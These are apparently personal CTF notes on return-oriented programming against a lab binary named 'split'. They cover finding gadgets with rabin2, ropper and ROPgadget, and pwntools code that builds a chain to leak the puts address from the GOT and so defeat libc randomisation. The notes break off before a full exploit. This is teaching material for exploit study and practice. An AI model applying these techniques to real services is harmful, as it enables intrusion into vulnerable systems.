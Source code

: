 find strings
```bash
rabin2 -z split
```

### find gadgets

tools
```bash
ropper -f split --search "pop rdi"
# or (founds a little bit more)
ROPgadget --binary ./split

```

## leak the base address of libc

a good write up about how this works: https://roarribbit.blogspot.com/2021/12/hack-box-cyber-santa-ctf-pwn-day-3.html

if we are going to overflow remote services and have access to the used libc we can use a puts gadget to leak the address of puts from the libc, with this we can calculate the offset and then can call every function in the libc.

for this, we first need to find a rdi gadget (x64) to set a param

e = our loaded binary with pwntools ELF function
```python
rop = ROP(e) 
pop_rdi_gadget = (rop.find_gadget(['pop rdi', 'ret']))[0]
pop_rdi_gadget = p64(pop_rdi_gadget)
```

then we need to find a puts call in our binary and the puts address in the GOT (Global Offset Table)

```python
PUTS_PLT = e.plt['puts']
PUTS_GOT = e.got['puts']
puts_addr = p64(PUTS_PLT)
puts_got = p64(PUTS_GOT)
```

finally we can craft a gadget chain, which we put in our return pointer (in the BOF). if you input is printed to us then we can receive the puts address

```python
payload = padding + pop_rdi_gadget + puts_got + puts_addr + main_addr

target.sendlineafter(b">", payload)
leak = target.recvline()
```

then we need to find the puts address, this should be printed behind our RDI Gadget, first we clean up the rdi address (remove zero bytes, because these are not availible in our output).
then we take the next 6bytes after our rdi gadget address and finally adjust them to fit in 8bytes
